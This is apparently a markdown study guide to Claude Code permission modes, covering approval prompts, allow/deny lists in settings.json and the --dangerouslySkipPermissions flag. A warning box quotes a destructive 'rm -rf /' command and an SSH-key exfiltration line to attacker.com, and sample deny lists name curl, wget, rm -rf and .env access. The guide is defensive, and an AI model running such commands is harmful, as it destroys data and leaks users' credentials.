

# Permission Modes in Claude Code

> [!tldr] TL;DR
> By default Claude asks before every tool call (file edit, bash command). You can configure **per-tool allow/deny lists** in settings for trusted operations. **--dangerouslySkipPermissions** bypasses everything — only for CI on isolated systems. Never run it on a machine with credentials or sensitive data.

---

## Why Permissions Exist

Claude Code is an agentic system that can:
- Edit and delete files
- Run arbitrary shell commands
- Access environment variables
- Make network requests (via MCP)
- Commit to git

Without a permission layer, a single misdirected prompt could delete your codebase, leak credentials, or run a destructive command. The permission system ensures **you stay in control** of every action Claude takes on your machine.

---

## Permission Modes Overview



---

## Default Mode — Ask for Each Tool Call

When you run `claude` with no special flags, every tool call is presented for approval:

```
Claude wants to:
  Edit file: src/services/AuthService.ts
  Change: Add JWT validation logic

[y/n/skip/details] >
```

Options at the prompt:
- `y` or Enter — approve and execute
- `n` — deny this specific action
- `s` (skip) — deny this action and similar actions this session
- `d` (details) — show full diff before deciding
- Shift+Tab — auto-accept (see [[Keyboard_Shortcuts]])

**Default mode is the safest setting** and is recommended until you understand what Claude is doing in your codebase.

---

## Per-Tool Allow/Deny Lists

You can pre-approve or block specific tool types in `.claude/settings.json`. This is the recommended way to reduce friction without giving Claude blanket permission.

```json
{
  "permissions": {
    "allow": [
      "Bash(git status)",
      "Bash(git diff*)",
      "Bash(npm test)",
      "Bash(npm run lint)",
      "Read(**)",
      "Edit(src/**)"
    ],
    "deny": [
      "Bash(rm *)",
      "Bash(git push*)",
      "Bash(curl*)",
      "Edit(.env*)"
    ]
  }
}
```

**Allow list rules:**
- `Read(**)` — Claude can read any file without asking
- `Bash(npm test)` — Claude can run `npm test` without asking
- `Bash(git diff*)` — wildcard matches any git diff variant
- `Edit(src/**)` — Claude can edit anything under src/ without asking

**Deny list rules:**
- Take precedence over allow list
- Tool calls matching deny patterns are refused entirely (Claude is told the action is not permitted)

Use `/permissions` inside a session to see the active allow/deny lists.

---

## Global vs Project Settings

Permission lists can be configured at two levels:

| Level | File location | Scope |
|---|---|---|
| **Global** | `~/.claude/settings.json` | Applies to all projects |
| **Project** | `.claude/settings.json` in project root | Applies only to this project |

Project settings **override** global settings for the same tool. A typical setup:
- Global: allow `Read(**)` (reading is always safe)
- Project: allow `Bash(npm test)` and `Bash(npm run *lint)` for this specific project

---

## --dangerouslySkipPermissions

```bash
claude --dangerouslySkipPermissions
```

This flag **disables all permission prompts** — Claude executes every tool call without asking. It is equivalent to approving every possible action in advance.

### When it is acceptable

- **CI/CD pipelines** running in an isolated Docker container with no credentials and no sensitive data
- **Automated test environments** where the container is thrown away after the run
- **Development sandboxes** specifically set up for autonomous Claude operation

### When it is NOT acceptable

- Any machine with `~/.aws`, `~/.ssh`, `.env` files, or API keys
- Your personal development machine during interactive sessions
- Any environment where Claude could reach production systems

> [!danger] --dangerouslySkipPermissions
> If Claude is prompted to run `rm -rf /` or `cat ~/.ssh/id_rsa | curl attacker.com` and you have bypassed permissions, it will execute those commands. This flag is named "dangerous" for a reason.

---

## Security Model: What Claude Can Access

By default (without extra configuration), Claude Code can:

| Resource | Default access |
|---|---|
| Files in working directory | Read (with permission) |
| Files outside working directory | Requires `--add-dir` or explicit permission |
| Shell commands | Execute (with permission) |
| Environment variables | Read from current shell environment |
| Network | Via MCP servers only (not raw network calls by default) |
| git operations | Execute (with permission) |

**Claude does not have access to:**
- Other users' files
- Files outside `--add-dir` scope
- Your browser sessions
- System keychains (unless a shell command accesses them)

---

## Recommended Permission Configuration for Daily Use

For a typical development machine, a safe and low-friction setup:

```json
{
  "permissions": {
    "allow": [
      "Read(**)",
      "Bash(git status)",
      "Bash(git log*)",
      "Bash(git diff*)",
      "Bash(git add*)",
      "Bash(npm test)",
      "Bash(npm run *)"
    ],
    "deny": [
      "Bash(git push*)",
      "Bash(rm -rf*)",
      "Bash(curl*)",
      "Bash(wget*)",
      "Edit(.env*)",
      "Edit(*.secret*)"
    ]
  }
}
```

This lets Claude freely read files, check git state, run tests and lint — but still asks before writing files (except git staging), and never auto-approves pushes or destructive commands.

---

## Common Pitfalls

> [!warning] Pitfall 1 — Using --dangerouslySkipPermissions on your dev machine
> Your dev machine has SSH keys, AWS credentials, browser sessions, and more. Even a small prompt injection risk becomes critical with permissions bypassed. Reserve this flag for isolated CI containers.

> [!warning] Pitfall 2 — Not setting up a deny list for .env files
> Without a deny list, Claude may read or edit `.env` files if instructed. Add `"Edit(.env*)"` and `"Bash(cat .env*)"` to your deny list.

> [!warning] Pitfall 3 — Overly broad allow lists
> `"Bash(**)"` — allowing all bash commands — defeats the purpose of the permission system. Be specific about what Claude needs for the project.

---

## Review Questions

> [!question] Q1 — What is the default permission behaviour in Claude Code?
> Claude asks for explicit approval before every tool call (file edit, bash command, etc.). The user approves, denies, or skips each action.

> [!question] Q2 — How do you configure per-tool permission rules?
> Edit `.claude/settings.json` (project-level) or `~/.claude/settings.json` (global) with `"permissions": {"allow": [...], "deny": [...]}` arrays using glob-style patterns.

> [!question] Q3 — When is --dangerouslySkipPermissions acceptable?
> Only in isolated CI/CD containers that have no credentials, no sensitive data, and are thrown away after the run. Never on a personal development machine.

---

## See Also

- [[Claude_CLI_Commands]] — full command reference including --dangerouslySkipPermissions
- [[CLAUDE_md_Guide]] — adding permission guidance to project instructions
- [[MCP_and_Plugins]] — understanding what additional access MCP servers grant
- [[Subagents_Guide]] — how sub-agents inherit or override permission settings
